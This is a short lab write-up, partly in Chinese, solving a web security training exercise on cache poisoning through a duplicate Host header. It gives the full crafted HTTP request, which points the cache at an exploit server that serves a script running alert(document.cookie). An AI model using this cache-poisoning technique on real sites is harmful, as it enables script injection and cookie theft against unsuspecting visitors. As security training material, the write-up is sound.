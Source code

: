 # Lab: Web cache poisoning via ambiguous requests

This lab is vulnerable to web cache poisoning due to discrepancies in how the cache and the back-end application handle ambiguous requests. An unsuspecting user regularly visits the site's home page.

To solve the lab, poison the cache so the home page executes alert(document.cookie) in the victim's browser.

## HTTP Host Header Attack
* 題目說要用快取污染的方式造成 XSS，稍微看一下可以看到其中一個 header 是 `X-Cache: miss` 指的是會從 host 抓快取，如果我們把 host 改一下，如果改成 exploit 的 host 會發現噴 503，在下面新增一個 host 就可以經過 exploit server，之後我們看一個 file 是 tracking.js，在 exploit server 那邊稍微設定一下，把 .js 的內容改成 `alert(documnet.cookie)`，又題目說要在根目錄的地方造成污染，所以改一下
```
GET / HTTP/1.1
Host: ac2b1f561e50e86cc0682151000e0097.web-security-academy.net
Host: exploit-ac281fa81e76e87fc0b8219501e400ae.web-security-academy.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_5 (Ergänzendes Update)) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.1.1 Safari/605.1.15
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-TW,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Cookie: _lab=46%7cMCwCFC0C%2bQAAB0w87auei0j21mDP36wlAhQYQ0foLipsjGlBtPHmOp1gER5Hex8pItiKFAlqkZfd2sOqFAo2slRCPJSazVIG3DkqWVxKujI8Pc1TbpOQHkMBobuteYDF6uqGY1uv0TRyOi547xk77QBnS96AZNwOMc84p6uqiVtdR3Q%3d; session=chkTanBlL9mAE0S0Nmhq8giyRODrdUgv
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
X-Forwarded-For: 127.0.0.1
Cache-Control: max-age=0


```